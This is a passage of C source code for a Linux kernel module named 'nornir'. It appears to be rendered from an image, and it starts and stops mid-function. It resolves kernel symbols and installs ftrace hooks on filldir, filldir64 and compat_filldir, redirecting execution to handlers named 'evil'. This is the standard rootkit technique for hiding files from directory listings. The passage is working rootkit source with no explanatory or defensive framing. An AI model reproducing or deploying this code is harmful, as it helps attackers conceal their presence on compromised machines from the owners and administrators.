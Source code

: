 ```
    ))) {
        fregs->regs.ip = (size_t) nornir_filldir_placeholder;
    }
#else
    #error "We do not support ftrace hook under current architecture yet"
#endif
}
 
static int nornir_install_ftrace_filldir_hooks(void)
{
    int err;
 
    err = nornir_install_ftrace_hook(orig_filldir, nornir_evil_filldir_ftrace);
    if (err) {
        logger_error("Unable to hook symbol \"filldir\".\n");
        goto err_filldir;
    }
 
    err = nornir_install_ftrace_hook(
        orig_filldir64,
        nornir_evil_filldir64_ftrace
    );
    if (err) {
        logger_error("Unable to hook symbol \"filldir64\".\n");
        goto err_filldir64;
    }
 
    err = nornir_install_ftrace_hook(
        orig_compat_filldir,
        nornir_evil_compat_filldir_ftrace
    );
    if (err) {
        logger_error("Unable to hook symbol \"compat_filldir\".\n");
        goto err_compat_filldir;
    }
 
    return 0;
 
err_compat_filldir:
    nornir_remove_ftrace_hook(orig_filldir64);
err_filldir64:
    nornir_remove_ftrace_hook(orig_filldir);
err_filldir:
    return err;
}
 
static int nornir_init_filldir_hooks(void)
{
    if (nornir_ksym_addr_lookup("filldir", (size_t*)&orig_filldir, NULL, NULL)){
        logger_error("Unable to look up symbol \"filldir\".\n");
        return -ECANCELED;
    }
 
    if (nornir_ksym_addr_lookup(
        "filldir64",
        (size_t*) &orig_filldir64,
        NULL,
        NULL
    )) {
        logger_error("Unable to look up symbol \"filldir64\".\n");
        return -ECANCELED;
    }
 
```